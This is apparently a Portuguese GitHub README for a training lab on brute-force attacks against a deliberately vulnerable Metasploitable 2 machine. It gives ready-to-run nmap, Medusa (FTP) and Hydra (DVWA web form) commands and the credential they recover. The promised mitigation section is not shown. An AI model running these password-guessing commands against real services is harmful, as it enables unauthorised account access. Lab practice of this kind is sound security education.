 # 🛡️ DIO-BruteForce-Medusa-Lab: Simulação de Ataque de Força Bruta

Este projeto é a implementação prática do desafio de segurança ofensiva da **DIO (Digital Innovation One)**. O foco é a utilização do **Kali Linux** e das ferramentas **Medusa/Hydra** para simular ataques de força bruta em um ambiente controlado (Metasploitable 2), documentando o processo e propondo medidas de mitigação eficazes.

O objetivo é exercitar a mentalidade de Blue Team (Defesa) após o teste ofensivo (Red Team).

---

## 💻 Ambiente de Laboratório

O laboratório foi configurado no **VirtualBox** com uma rede **Host-Only** para isolamento total do tráfego.

| Componente | Função | Endereço IP (Exemplo - **Ajuste para o Seu**!) |
| :--- | :--- | :--- |
| **Kali Linux** | Máquina Atacante (Medusa, Nmap, Hydra) | `192.168.56.101` |
| **Metasploitable 2** | Máquina Alvo Vulnerável (FTP, DVWA, SMB) | `192.168.56.102` |

### **Ferramentas Utilizadas:**

* **Kali Linux:** Plataforma de testes de penetração.
* **Medusa:** Ferramenta de força bruta para serviços de rede (FTP, SMB).
* **Hydra:** Ferramenta de força bruta otimizada para requisições HTTP (Web Forms).
* **Nmap:** Usado para enumeração e descoberta de serviços.

---

## 🔬 Metodologia de Ataque e Resultados

Abaixo estão os detalhes, comandos e resultados de cada cenário simulado.

### 1. Ataque de Força Bruta em Serviço FTP (Porta 21)

O ataque visou o serviço FTP vulnerável (VSFTPD 2.3.4) do Metasploitable 2.

#### **Etapas:**

1.  **Enumeração (Nmap):** Confirmação de que o serviço FTP estava ativo.
    ```bash
    nmap -sV -p 21 192.168.56.102
    ```
    *(Evidência em: `/images/1-ftp-nmap.png`)*
2.  **Execução do Ataque (Medusa):** Utilização de wordlists simples (`users.txt` e `senhas.txt`) disponíveis na pasta `/wordlists/`.

    ```bash
    medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/senhas.txt -M ftp
    ```
    *(Evidência em: `/images/2-ftp-medusa.png`)*

#### **Resultado:**

* **Credencial Encontrada:** `msfadmin:msfadmin`
* **Validação:** O login foi confirmado via cliente `ftp` do terminal.
    *(Evidência em: `/images/3-ftp-login-success.png`)*

---

### 2. Ataque em Formulário Web (DVWA)

Simulação de quebra de login no formulário **Brute Force** do DVWA. A ferramenta **Hydra** foi utilizada, sendo mais adequada para a manipulação de requisições HTTP POST.

#### **Comando (Exemplo com Hydra):**

```bash
hydra -l admin -P wordlists/senhas.txt 192.168.56.102 http-post-form "/dvwa/vulnerabilities/brute/?username=^USER^&password=^PASS^&Login=Login:H=Location: /dvwa/vulnerabilities/brute/" -V -f
```


| Plataforma | Link |
| :--- | :--- |
| **GitHub** (Todos Repositórios) | [https://github.com/FabioWlademir?tab=repositories](https://github.com/FabioWlademir?tab=repositories) |
| **LinkedIn** (Perfil Profissional) | [https://www.linkedin.com/in/fabiowlademir](https://www.linkedin.com/in/fabiowlademir) |
| **Website/Blog** (Artigos e Tutoriais) | [f2suporte.blogspot.com](https://f2suporte.blogspot.com) |
| **Página Pessoal** (GitHub Pages) | [https://fabiowlademir.github.io/](https://fabiowlademir.github.io/) |
| **E-mail** | `f2suporte@gmail.com` |



